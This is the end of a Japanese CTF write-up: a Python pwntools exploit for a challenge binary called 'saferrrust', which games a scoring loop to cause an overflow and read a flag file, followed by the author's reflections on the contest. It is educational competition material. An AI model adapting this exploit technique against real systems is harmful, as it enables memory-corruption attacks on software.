 ```python

    io.readuntil(b"between ")
    r = io.readuntil(b"(").decode()
    a, b = extract_two_integers(r)

    io.sendlineafter(b'!\n', str(a + 1).encode())

    result = io.readline()
    if b'Correct' in result:
        return current + 100
    elif b'Wrong' in result:
        return current - 1
    else:
        error("Unknown result: " + result.decode())

def save(io, n: int):
    io.sendline(b"2")
    io.sendline(str(n).encode())

def load(io, n: int):
    io.sendline(b"3")
    io.sendline(str(n).encode())

def exploit():
    io = gdb.debug("./saferrrust")
    # io = gdb.debug("./saferrrust", exe="./saferrrust", gdbscript="""
    #     # catch syscall open
    #     # catch syscall openat
    # """)


    io.sendlineafter(b"name:", (b'pppppp' + b'/////flag' * 3 + (b'abcdefghijklmnopqrstuvwxABCDEFGHIJKLMNOPQRSTUVWX') * 10)[: 0x200])

    overflowed = 0
    while overflowed < 3:
        while correct(io) < 0:
            pass

        while 28 < fail(io):
            pass

        s = correct(io)
        if s == 128:
            overflowed += 1

        for i in range(30):
            fail(io) # score <= 27

    io.interactive()
if __name__ == '__main__':
    exploit()
```

# 所感

発想というより、どれだけ基礎的な exploit を書けますか、みたいな問題が多かった印象ですね。LIVE CTF みたいに開発スピードが要求されるところだとこういうのが顕著に現れる...
やっぱり、細かいテクニックみたいなのはしっかりと固めておきたいなぁ。どこでも使えるし。

CTF をサボりすぎていて予選ではほぼ貢献できなかったから、せっかく本戦に連れて行ってもらえるなら少しでも役に立ちたい！
この writeup もそういった意図で執筆しています。

すごい楽しい CTF だったし、本戦でアメリカ行ったらこのノリで体験記も書きます。お楽しみに！
